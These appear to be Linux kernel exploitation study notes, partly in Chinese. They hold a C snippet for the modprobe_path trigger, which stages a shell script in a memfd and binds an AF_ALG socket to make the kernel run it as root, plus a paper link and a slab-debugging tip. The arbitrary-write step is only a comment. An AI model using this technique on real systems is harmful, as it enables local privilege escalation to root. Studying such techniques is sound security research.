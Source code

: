 ```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <linux/if_alg.h>
#include <fcntl.h>
#include <sys/mman.h>

#define MODPROBE_SCRIPT "#!/bin/sh\\n/bin/sh 0</proc/%u/fd/%u 1>/proc/%u/fd/%u 2>&1\\n"

int main(void)
{
        char fake_modprobe[40] = {0};
        struct sockaddr_alg sa;
        pid_t pid = getpid();

        int modprobe_script_fd = memfd_create("", MFD_CLOEXEC);
        int shell_stdin_fd = dup(STDIN_FILENO);
        int shell_stdout_fd = dup(STDOUT_FILENO);

        dprintf(modprobe_script_fd, MODPROBE_SCRIPT, pid, shell_stdin_fd, pid, shell_stdout_fd);
        snprintf(fake_modprobe, sizeof(fake_modprobe), "/proc/%i/fd/%i", pid, modprobe_script_fd);

        // Overwriting modprobe_path with fake_modprobe here...

        int alg_fd = socket(AF_ALG, SOCK_SEQPACKET, 0);
        if (alg_fd < 0) {
                perror("socket(AF_ALG) failed");
                return 1;
        }

        memset(&sa, 0, sizeof(sa));
        sa.salg_family = AF_ALG;
        strcpy((char *)sa.salg_type, "V4bel");  // dummy string
        bind(alg_fd, (struct sockaddr *)&sa, sizeof(sa));

        return 0;
}
```




# 相关Paper
+ [Constructing arbitrary write via puppet objects and delivering gadgets in Linux kernel](https://www.sciencedirect.com/science/article/abs/pii/S0167404824004942#preview-section-snippets)
+ 


# 调试slab
可使用`slabtop`命令
